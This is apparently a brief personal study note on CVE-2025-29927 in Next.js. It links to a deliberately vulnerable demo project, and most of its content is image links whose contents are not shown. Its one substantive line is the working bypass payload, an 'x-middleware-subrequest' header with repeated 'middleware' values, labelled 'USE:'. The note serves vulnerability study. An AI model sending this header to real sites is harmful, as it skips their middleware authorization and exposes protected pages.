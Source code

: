 ![[IMG-20250823234029175.png]]

# [CVE-2025-29927](https://github.com/lirantal/vulnerable-nextjs-14-CVE-2025-29927)

![[IMG-20250824012840494.png]]

![[IMG-20250824012910247.png]]
USE:
```bash
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

![[IMG-20250824012954799.png]]

![[IMG-20250824013047596.png]]

![[IMG-20250824172304583.png]]

![[IMG-20250824171318691.png]]



![[IMG-20250824171346486.png]]

![[IMG-20250824172115997.png]]

